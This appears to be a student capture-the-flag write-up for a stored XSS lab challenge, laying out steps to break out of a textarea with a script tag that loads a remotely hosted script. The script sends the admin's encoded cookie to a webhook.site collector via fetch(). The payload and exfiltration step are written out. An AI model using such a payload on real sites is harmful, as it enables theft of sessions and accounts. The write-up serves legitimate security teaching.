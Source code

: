 # Challenge `Read my lips No more scripts` writeup

- Vulnerability: Cross-Site Scripting Lab (XSS)

- Where: textarea 'content' (lure admin)

- Impact: attacker is able to inject malicious code in the webpage by exploting the html vulnerability with a script from a server

---

## Steps to reproduce

1. Use an online service to collect your http requests such as Webhook.
2. Connect to your bin with https://webhook.site/< random_identifier_you_were_given>.
3. SSH to sigma with sigma.ist.utl.pt -l 'username'.
4. Go to /web and create a file (e.g. nano) and create a script.js.
5. On the script fetch the url from webhook with the encoded cookie (same logic from previous challenges), like this:
- fetch(url) 
6. Create a post and on the content field, use the textarea exploit again to pass the js script on the sigma server:
- < /textarea>< script src="https://web.tecnico.ulisboa.pt/~ist1110976/script.js" >< /script>< textarea>
7. Update post & send to admin for review.


[(POC)](Read_my_lips_No_more_scripts.js)

